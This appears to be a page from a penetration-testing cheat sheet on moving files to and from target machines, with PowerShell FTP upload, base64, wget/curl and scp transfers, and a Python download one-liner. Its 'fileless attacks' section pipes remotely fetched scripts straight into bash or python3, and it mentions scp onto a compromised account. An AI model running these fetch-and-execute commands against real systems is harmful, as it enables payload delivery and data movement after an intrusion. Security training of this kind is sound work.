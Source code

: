 #### FTP Uploads

pyftpdlib can be used with the *--write* option to allow uploads, then this cmdlet can then be used for upload:

	(New-Object System.Net.WebClient).UploadFile('ftp://[server-ip]/[remote-filename]', '[local-file]') 

<br>

## Linux File Transfer Methods

### Download Operations

#### Base64 Encode & Decode

	cat [file] | base64 -w 0

	 echo -n '[base64-string]' | base64 -d -w 0

#### Web Downloads with Wget and cURL

	 wget http://[url]/[file] -O [output-filename]

	curl -o [output-filename] http://[url]

#### Fileless Attacks Using Linux

##### curl:
	 curl http://[url]/[file] | bash
	 curl http://[url]/[python-script-file] | python3

##### wget:
	 wget -q0- http://[url]/[file] | bash
	  wget -q0- http://[url]/[python-script-file] | python3 


#### SCP Downloads

if ssh credentials compromise is achieved scp can be used to transfer files between machines

	scp [file] [compromised-user]@[address]:[path]
[the user should have write permissions over the [path] directory] 
<br>

## Transfering Files with Code

### Python

#### Downloading

##### python3

	python3 -c 'import urllib.request;urllib.request.urlretrieve("http://[server-ip]/[file]","[output-file]")'
